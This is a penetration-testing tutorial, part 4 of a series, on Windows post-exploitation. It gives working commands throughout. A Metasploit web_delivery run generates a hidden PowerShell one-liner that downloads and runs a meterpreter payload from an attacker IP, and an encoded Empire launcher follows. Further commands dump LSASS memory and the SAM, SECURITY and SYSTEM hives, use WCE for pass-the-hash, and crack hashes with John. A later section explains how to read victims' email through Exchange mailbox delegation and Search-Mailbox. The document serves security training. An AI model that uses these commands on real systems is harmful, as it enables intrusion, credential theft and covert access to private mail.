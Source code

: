 ===================================================================================
Learning from the field : Infrastruture PenTest Series : Part 4 - Post Exploitation
===================================================================================

From the previous post, we learned how to have authenticated remote shell in windows, in this post, we will have a look around of how to **gather credentials after getting a remote shell**. We would also have a look how to have a **High-Impact post exploitation** which leaves an impact to the higher mangagement for the organization. In **Appendix-I : Windows Credentials**, We have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types.

Gathering Windows Credentials
------------------------------

Once we have remote shell, our next task is to gather all the passwords from Security Accounts Manager (SAM) database, Local Security Authority Subsystem (LSASS) process memory.
Domain Active Directory Database (domain controllers only), Credential Manager (CredMan) store or LSA Secrets in the registry and get all the passwords ( clear-text or hashed ). A lot of stuff has already been mentioned at `Obtaining Windows Passwords <http://netsec.ws/?p=314>`_ and `Dumping Windows Credential <https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/>`_ and Bernardo Blog Dump Windows password hashes efficiently `Part1 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes.html>`_ , `Part2 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_16.html>`_, `Part3 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_20.html>`_, `Part4: <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_21.html>`_, `Part5 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_28.html>`_ and `Part6 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_29.html>`_.

We have tried to combine all the methods in one post. (A lot of stuff has also been not mentioned such fgdump, pwdump etc.). For all methods, check `Credential Dumping <https://attack.mitre.org/wiki/Technique/T1003>`_ on ATT&CK. 

So, back to credential dumping after getting a remote shell, there are multiple methods to do the following:

* Get metasploit meterpreter by using Web Delivery method and run mimikatz
* Get powershell empire agent by using powershell launcher string and run mimikatz
* Execute Windows Credential Editor ( WCE )
* Dumping Local Security Authority Subsystem Service
* Dumping Registry Hives
* Dumping System/ Security / SAM File
* Virtual Machine Snapshots and Suspended States - Vmss2core

Metasploit Web Delivery
^^^^^^^^^^^^^^^^^^^^^^^^

`Metasploit Web Delivery <https://www.offensive-security.com/metasploit-unleashed/web-delivery/>`_ : Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

::

  msf > use exploit/multi/script/web_delivery 
  msf exploit(web_delivery) > show targets 

  Exploit targets:
  
     Id  Name
     --  ----
     0   Python
     1   PHP
     2   PSH  
  
  
  msf exploit(web_delivery) > set target 2
  target => 2
  msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https 
  payload => windows/x64/meterpreter/reverse_https
  msf exploit(web_delivery) > set lhost 14.97.131.138
  lhost => 14.97.131.138
  msf exploit(web_delivery) > run 
  [*] Exploit running as background job.

  [*] Started HTTPS reverse handler on https://14.97.131.138:8443
  msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
  [*] Local IP: http://14.97.131.138:8080/uMOKs6wtlYL
  [*] Server started.
  [*] Run the following command on the target machine:
  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

When the following command (when their is no proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

or (when there is proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
 

is executed on the windows remote machine, we should get a meterpreter.

::

  Delivery web_delivery payload
  meterprerter>

Powershell Empire
^^^^^^^^^^^^^^^^^^

`Powershell Empire agent <https://www.powershellempire.com/>`_ : Empire is a pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

After creating a listener, we just need to create a launcher using stager:

::

 (Empire: listeners) > usestager launcher 
 (Empire: stager/launcher) > set Listener test
 (Empire: stager/launcher) > generate
 powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAMAA7ACQAdwBDAD0ATgBFAFcALQBPAGIASgBlAGMAVAAgAFMAeQBTAFQAZQBNAC4ATgBlAHQALgBXAEUAQgBDAGwASQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAG*snip*4AOQA3AC4AMQAzADEALgAxADMAOAA6ADgAMAA4ADAALwBpAG4AZABlAHgALgBhAHMAcAAiACkAKQApAHwAJQB7ACQAXwAtAEIAWABPAFIAJABLAFsAJABJACsAKwAlACQASwAuAEwAZQBOAEcAdABIAF0AfQA7AEkARQBYACAAKAAkAEIALQBKAG8ASQBOACcAJwApAA==

When the above command is executed on the windows remote shell, we should be able to get a powershell agent

::

 (Empire) > [+] Initial agent 2FTFYMKDFSSFS from 192.168.42.5 now active


Sometimes the above two will fail to work, in which case, we revert to the old techniques:

Dump Lsass.exe (Local Security Authority Subsystem Service)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Using Procdump: This method has been mentioned `Grabbing Passwords from Memory using Procdump and Mimikatz <https://cyberarms.wordpress.com/2015/03/16/grabbing-passwords-from-memory-using-procdump-and-mimikatz/>`_ , `How Attackers Extract Credentials (Hashes) From LSASS <https://adsecurity.org/?p=462>`_ , `Mimikatz Minidump and mimikatz via bat file <http://carnal0wnage.attackresearch.com/2013/07/mimikatz-minidump-and-mimikatz-via-bat.html>`_ , `Extracting Clear Text Passwords Using Procdump and Mimikatz  <http://c0d3xpl0it.blogspot.in/2016/04/extracting-clear-text-passwords-using-procdump-and-mimikatz.html>`_ and `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

 * First, upload the `ProcDump.exe <https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx>`_ to the remote computer by using smb, windows explorer.

 * Second, from the remote shell, execute

  ::

   C:\Windows\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp     => For 32 bit system
   C:\Windows\temp\procdump.exe -accepteula -ma -64 lsass.exe lsass.dmp => For 64 bit system

 * Download the lsass.dmp and use mimikatz to get the passwords.

* Using Powershell Out-MiniDump

 This method is similar to the procdump using powershell. Instead of procdump, we utilize powershell `Out-MiniDump.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Out-Minidump.ps1>`_ from PowerSploit

 * Launch PowerShell and `dot source <http://ss64.com/ps/source.html>`_ function from the Out-Minidump.ps1

  ::
   
   . c:\path\to\Out-Minidump.ps1

 * Create dump of the process using this syntax:

  ::

   Get-Process lsass | Out-Minidump -DumpFilePath C:\Windows\Temp

Registry Hives
^^^^^^^^^^^^^^^

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system:

::

 C:\> reg.exe save hklm\sam c:\temp\sam.save
 C:\> reg.exe save hklm\security c:\temp\security.save
 C:\> reg.exe save hklm\system c:\temp\system.save

Get the password hashes of the local accounts, the cached domain credentials and the LSA secrets in a single run with Impacket secretsdump.py

::

 $ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
 Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

 [*] Target system bootKey: 0x602e8c2947d56a95bf9cfxxxxxxxxxxx
 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
 admsys  :500 :aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d68xxxxxxxxxx:::
 Guest   :501 :aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59dxxxxxxxxx:::
 support :1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b5xxxxxxxxx:::
 [*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
 adm2:6ec74661650377df488415415bf10321:system1.example.com:EXAMPLE:::
 Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:system2.example.COM:EXAMPLE:::
 [*] Dumping LSA Secrets
 [*] $MACHINE.ACC
 $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9adxxxxxxxxxx

Windows Credential Editor (WCE)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Windows Credentials Editor (WCE) is a security tool that allows to list Windows logon sessions and add, change, list and delete associated credentials (e.g.: LM/NT hashes, Kerberos tickets and cleartext passwords).

The tool allows users to:

* Perform Pass-the-Hash on Windows
* 'Steal' NTLM credentials from memory (with and without code injection)
* 'Steal' Kerberos Tickets from Windows machines
* Use the 'stolen' kerberos Tickets on other Windows or Unix machines to gain access to systems and services
* Dump cleartext passwords stored by Windows authentication packages


**Examples:**

* List NTLM credentials in memory: By default, WCE lists NTLM credentials in memory, no need to specify any options.

 ::

  C:\Users\test>wce.exe
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  theuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 

* Create a new logon session and launch a program with new NTLM credentials?

 ::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash> -c <program>

 Example:

 ::
 
  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 -c cmd.exe
 
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  Changing NTLM credentials of new logon session (000118914h) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!
 
 At this point, a new cmd.exe instance will be launched and network connections using NTLM initiated from that instance will use the NTLM credentials specified. 
 
* Write hashes obtained by WCE to a file?

 ::
 
  C:\>wce -o output.txt
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  C:\>type output.txt
  test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
 
* Dump logon cleartext passwords with WCE?

 The -w switch can be used to dump logon passwords stored in cleartext by the Windows Digest Authentication package. For example:
 
 ::
 
  C:\>wce -w
  WCE v1.3beta (Windows Credentials Editor) - (c) 2010,2011,2012 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity com)
  Use -h for help.
  
  
  test\MYDOMAIN:mypass1234
  NETWORK SERVICE\WORKGROUP:test
  
 `This <http://www.youtube.com/watch?v=tJ0VJVrhwTE&ap=%2526fmt%3d22>`_ video shows the use of the -w switch in a Windows 2008 Server

Useful Information:

* Cachedump obtains NTLM credentials from the Windows Credentials Cache (aka logon cache, logon information cache, etc). This cache can be disabled and it is very often disabled by network/domain/windows administrators (`see here <http://support.microsoft.com/kb/172931>`_ ). WCE will be able to steal credentials even when this cache is disabled.

* WCE obtains NTLM credentials from memory, which are used by the system to perform SSO; it uses a series of techniques the author of WCE developed.

* Pwdump dumps NTLM credentials from the local SAM. Let's say a administrator remote desktop to a server (compromised by attacker and can run wce). In this case, WCE would be able get the credential of Administrator ( who RDP'd ), However, pwdump will only allow you to obtain the NTLM credentials of the local SAM

The above information has been taken from `WCE FAQ <http://www.ampliasecurity.com/research/wcefaq.html>`_

System/ Security / SAM File
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

During penetration assesment, we do find VMDK file (Virtual Machine Disk), we should be able to mound vmdk file either by using Windows Explorer, VMWare Workstation or OSFMount. After mounting, we should be able to copy 

:: 

 System32/config/SYSTEM
 System32/config/SECURITY

Passwords from these file could be extracted by using `creddump7 <https://github.com/Neohapsis/creddump7>`_ 

Run cachedump.py on the SYSTEM and SECURITY hives to extract cached domain creds:

::

 # ./cachedump.py
 usage: ./cachedump.py <system hive> <security hive> <Vista/7>
 
 Example (Windows Vista/7):
 ./cachedump.py /path/to/System32/config/SYSTEM /path/to/System32/config/SECURITY true
 
 Example (Windows XP):
 ./cachedump.py /path/to/System32/SYSTEM /path/to/System32/config/SECURITY false
 
 # ./cachedump.py /mnt/win/Windows/System32/config/SYSTEM /mnt/win/Windows/System32/config/SECURITY true |tee hashes
 nharpsis:6b29dfa157face3f3d8db489aec5cc12:acme:acme.local
 god:25bd785b8ff1b7fa3a9b9e069a5e7de7:acme:acme.local

If you want to crack the hashes and have a good wordlist, John can be used. The hashes are in the 'mscash2' format:

::

 # john --format=mscash2 --wordlist=/usr/share/wordlists/rockyou.txt hashes
 Loaded 2 password hashes with 2 different salts (M$ Cache Hash 2 (DCC2) PBKDF2-HMAC-SHA-1 [128/128 SSE2 intrinsics 8x])
 g0d              (god)
 Welcome1!        (nharpsis)

The examples above are taken from creddump7 Readme

Virtual Machine Snapshots And Suspended States - Vmss2core
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This method has been directly taken from the Fuzzy Security Blog `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

After compromising a target if we discover that the box hosts Virtual Machines. We can utilize `vmss2core <https://labs.vmware.com/flings/vmss2core>`_ , we can use this tool to create a coredump of a Virtual Machine, If that machine has suspended (*.vmss) or snapshot (*.vmsn) checkpoint state files. These files can be parsed by the volatility framework to extract a hashdump.

Make sure to use the appropriate version of vmss2core, in this case I needed the 64-bit OSX version.

::

 # We are working with a suspended state so we need to combine *.vmss and *.vmem. If we were
  dealing with a snapshot we would need to combine *.vmsn and *.vmem.
	
 Avalon:Tools b33f$ ./vmss2core_mac64 -W
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmss 
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmem

 vmss2core version 3157536 Copyright (C) 1998-2013 VMware, Inc. All rights reserved.
 Win32: found DDB at PA 0x2930c28
 Win32: MmPfnDatabase=0x82970700
 Win32: PsLoadedModuleList=0x82950850
 Win32: PsActiveProcessHead=0x82948f18
 Win32: KiBugcheckData=0x82968a40
 Win32: KernBase=0x82806000

 Win32: NtBuildLab=0x82850fa8
 Win: ntBuildLab=7601.17514.x86fre.win7sp1_rtm.101119-1850  # Win7 SP1 x86
 CoreDumpScanWin32: MinorVersion set to 7601
 ... 10 MBs written.
 ... 20 MBs written.
 ... 30 MBs written.
 ... 40 MBs written.
 ... 50 MBs written.
 
 [...Snip...] 
 
 Finished writing core.

After transferring the coredump back out we can let volatility do it's magic. We need to determine which OS the dump comes from for volatility to parse it correctly.

:: 

 # We can see that volatility is unable to accurately determine the OS profile, however from the vmss2core
   output above we can see that the correct profile is "Win7SP1x86". 
 	
 root@Josjikawa:~/Tools/volatility# ./vol.py imageinfo -f ../../Desktop/memory.dmp 
 
 Determining profile based on KDBG search...
 
           Suggested Profile(s) : Win7SP0x86, Win7SP1x86 (Instantiated with WinXPSP2x86)
                      AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                      AS Layer2 : WindowsCrashDumpSpace32 (Unnamed AS)
                      AS Layer3 : FileAddressSpace (/root/Desktop/memory.dmp)
                       PAE type : PAE
                            DTB : 0x185000L
              KUSER_SHARED_DATA : 0xffdf0000L
            Image date and time : 2014-09-13 19:15:04 UTC+0000
      Image local date and time : 2014-09-13 21:15:04 +0200

Using the "hivelist" plugin we can now get the memory offsets for the various registry hives.

:: 

 root@Josjikawa:~/Tools/volatility# ./vol.py hivelist -f ../../Desktop/memory.dmp --profile=Win7SP1x86

 Volatility Foundation Volatility Framework 2.4
 
 Virtual    Physical   Name
 ---------- ---------- ----
 0x988349c8 0x3945a9c8 \??\C:\Users\Fubar\AppData\Local\Microsoft\Windows\UsrClass.dat
 0x87a0c008 0x27f9f008 [no name]
 0x87a1c008 0x280ed008 \REGISTRY\MACHINE\SYSTEM                # SYSTEM
 0x87a3a6b0 0x27d4b6b0 \REGISTRY\MACHINE\HARDWARE
 0x87abe5c0 0x2802a5c0 \SystemRoot\System32\Config\DEFAULT
 0x880b5008 0x231b7008 \SystemRoot\System32\Config\SECURITY
 0x88164518 0x231cc518 \SystemRoot\System32\Config\SAM         # SAM
 0x8bd019c8 0x24aec9c8 \Device\HarddiskVolume1\Boot\BCD
 0x8bdd2008 0x24772008 \SystemRoot\System32\Config\SOFTWARE
 0x8f5549c8 0x1f39e9c8 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
 0x90e83008 0x1f09f008 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
 0x955a9450 0x15468450 \??\C:\System Volume Information\Syscache.hve
 0x988069c8 0x3aa329c8 \??\C:\Users\Fubar\ntuser.dat


All that remains now is to dump the hashes. To do this we need to pass volatility's "hashdump" module the virtual memory offsets to the SYSTEM and SAM hives, which we have.

::

 root@Josjikawa:~/Tools/volatility# ./vol.py hashdump -f ../../Desktop/memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518
 
 Volatility Foundation Volatility Framework 2.4 
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::

These Virtual Machine coredumps can be very large (1 GB+). If transferring them over the network is not an option you can always drop a copy of volatility on the target machine. Starting from version 2.4, volatility has binary packages for Windows, Linux and OSX.

::
 
 # Binary package on OSX 10.9.4

 Avalon:Volatility-2.4 b33f$ ./volatility_2.4_x64 hashdump -f ../memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518 
 
 Volatility Foundation Volatility Framework 2.4
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::



High Impact Exploitation
--------------------------

This section mainly focuses on the Post-exploitation which can be show to the higher management for impact or showing risk such as reading emails ( either by reading .pst files or having access to the exchange server ), having access to the File-servers holding confidential data, able to access employees laptop/ desktop ( watch them via webcam/ listen to the surroundings using microphones). The assumption is we have already compromised the domain administrator of the Windows Domain.

Outlook data file .pst
^^^^^^^^^^^^^^^^^^^^^^

A Personal Folders file (.pst) is an Outlook data file that stores your messages and other items on your computer. 

readpst ( linux ) or `readpst.exe <https://github.com/srnsw/xena/tree/master/xena/dist/winx86>`_ can be used to read pst mailbox for passwords

::

 ReadPST / LibPST v0.6.59
 Little Endian implementation being used.
 Usage: readpst [OPTIONS] {PST FILENAME}
 OPTIONS:
	-V	- Version. Display program version
	-D	- Include deleted items in output
	-M	- Write emails in the MH (rfc822) format
	-S	- Separate. Write emails in the separate format
	-e	- As with -M, but include extensions on output files
	-h	- Help. This screen
	-o <dirname>	- Output directory to write files to. CWD is changed *after* opening pst file
	-q	- Quiet. Only print error messages
	-r	- Recursive. Output in a recursive format
	-t[eajc]	- Set the output type list. e = email, a = attachment, j = journal, c = contact
	-w	- Overwrite any output mbox files

Only one of -M -S -e -k -m -r should be specified

Once readpst has converted the contents of the .pst file to plaintext documents, we can search through them using the built-in “findstr” command.

::

 findstr /s /i /m “password” *.*

 “/s” tells findstr to search through the current directory and subdirectories.
 “/i” specifies that the search should be case insensitive.
 “/m” tells findstr to output the file name rather than the file contents – if we output the contents, we may quickly be swamped with output that we’ll still have to sift through.  Depending on the amount of output, you may also quickly exceed cmd.exe’s limits.
 *.*, of course, means that we’re searching through files of any name and any type.

The above has been taken from the `Pillaging .pst Files <https://warroom.securestate.com/pillaging-pst-files/>`_ 

Pillage Exchange
^^^^^^^^^^^^^^^^^

This is applicable in a Microsoft environment that uses Outlook but does not back up email to .pst files.

The assumption is that we have already compromised the Exchange Administrator account on the Exchange server.  We’ll use two techniques to search through mailboxes of interest.  The first is to give ourselves full access to the targeted user’s mailbox; the second is to use built-in management features to search through a mailbox of our choosing.

* First: **Full access to the targeted user’s mailbox**

 * Step 1: Add a Mailbox - Create a new mailbox by using web-based Exchange Admin Center (EAC). The “mailboxes” section allows us to add a new user mailbox.  The user receiving the mailbox can come from the list of Active Directory users, or the Administrator can create a new user.

 * Step 2: Mailbox Delegation - Once our new user’s mailbox is created, we can give ourselves full access to our target user mailbox. This can be done by using targeted user mailbox account options. Go to the account settings of targeted user mailbox, select the edit option, select “mailbox delegation,” and add our new user to the “Full Access” section. Once that’s complete, we can log in to our recently created mailbox with the username and password we set, then open another mailbox without being required to enter any credentials

 However, when we interact with their mailbox, it’s as if they are doing it, so emails previously marked as unread will be marked as read after being opened.

* Second: The **Search-Mailbox cmdlet**

 * If we have access to the exchange server and Exchange Management Tools are installed on a machine, they include the Exchange Management Shell, which is a version of Powershell with specific features for administering exchange.  “Search-Mailbox,” allows us to make specific search queries on mailboxes of interest without manually giving ourselves full-access and logging in.

 * However, Search-Mailbox belongs to administrators with the “Discovery Management” role.  We have to add the compromised account to the members of this role by visiting EAC and going to “permissions,” “admin roles” and editing the “Discovery Management” to add the account we compromised.

 * Search-Mailbox Syntax

  ::

   Search-Mailbox -Identity “First Last” -SearchQuery “String” -TargetMailbox “DiscoveryMailbox” -TargetFolder “Folder” -LogLevel Full
   
   Identity is the Active Directory username
   SearchQuery is the string of text we’re looking for, 
   TargetMailbox is the mailbox where emails containing that string will be sent (hence the need to control a mailbox), 
   TargetFolder is the folder in that mailbox where they’ll go

 * Example:

  ::

   Search-Mailbox -Identity “Targeted User” -SearchQuery “Password” -TargetMailbox “NewMailboxCreated” -TargetFolder “Inbox” -LogLevel Full

  Now we simply pop back over to the mailbox of the user we created and inspect the newly arrived email(s):

The above has been taken from `Pillage Exchange <https://warroom.securestate.com/pillage-exchange/>`_

File Servers
^^^^^^^^^^^^^

We can get a list of file servers in the windows active directory by using Powersploit-Powerview-Get-NetFileServer funtion. Once we have the file server list, we can view the file server contents utilizing Windows explorer. We can also mount the file server using mount.cifs

::

 mount.cifs //{ip address}/{dir} /mnt/mountdirectory --verbose -o "username=foo,password=bar,domain=domainname,ro"


* The Email- Mailbox Post exploitation -- Also the check if someone has exploited this (check logs) -- which is also connected to Domain? 


  * How does google email works?

  * File Hunting -- Better ways!! Faster ways!!


Appendix-I : Windows Credentials
---------------------------------

In this section, we have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types.

Terminology: authentication, credentials, and authenticators
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

When a user wants to access a computing resource, they must provide information that identifies who they are, their identity, and proof of this identity in the form of secret information that only they are supposed to know. This proof of identity is called an **authenticator**. An authenticator can take various forms, depending on the authentication protocol and method. The combination of an **identity** and an **authenticator** is called an **authentication credential or credential**. The process of creation, submission, and verification of credentials is described simply as **authentication**, which is implemented through various authentication protocols, such as NTLM and Kerberos authentication. Authentication establishes the identity of the user, but not necessarily the user's permission to access or change a computing resource, which is handled by a separate authorization process.


Credentials in Windows operating systems
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Credentials are typically created or converted to a form required by the authentication protocols available on a computer. Credentials may be stored in LSASS process memory for use by the account during a session. Credentials must also be stored on disk in authoritative databases, such as the SAM database and the Active Directory database.
        
**Identities - usernames**

In Windows operating systems, a user’s identity takes the form of the account’s username, either the "user name" (SAM Account Name) or the User Principal Name (UPN).

**Windows authenticators**

Windows Credential Types, lists the credential authenticator types in Windows operating systems and provides a brief description of each type.

+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Type       | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Plaintext credentials | When a user logs on to a Windows computer and provides a username and credentials, such as a password or PIN, the     |
|                       | information is provided to the computer in plaintext. This plaintext password is used to authenticate the user’s      |
|                       | identity by converting it into the form required by the authentication protocol. Current versions of Windows also     |
|                       | retain an encrypted copy of this password that can be decrypted back to plaintext for use with authentication methods |
|                       | such as Digest authentication.                                                                                        |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| NT hash               | The NT hash of the password is calculated using an unsalted MD4 hash algorithm. MD4 is a cryptographic one-way        |
|                       | function that produces a mathematical representation of a password. This hashing function is designed to always       |
|                       | produce the same result from the same password input, and to minimize collisions where two different passwords can    | 
|                       | produce the same result. This hash is always the same length and cannot be directly decrypted to reveal the plaintext | 
|                       | password. Because the NT hash only changes when the password changes, an NT hash is valid for authentication until a  |
|                       | user’s password is changed. This also means that if two accounts use an identical password, they will also have an    |
|                       | identical NT password hash.                                                                                           |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LM Hash               | LAN Manager (LM) hashes are derived from the user password. Legacy support for LM hashes and the LAN Manager          |
|                       | authentication protocol remains in the Windows NTLM protocol suite, but default configurations and Microsoft security |
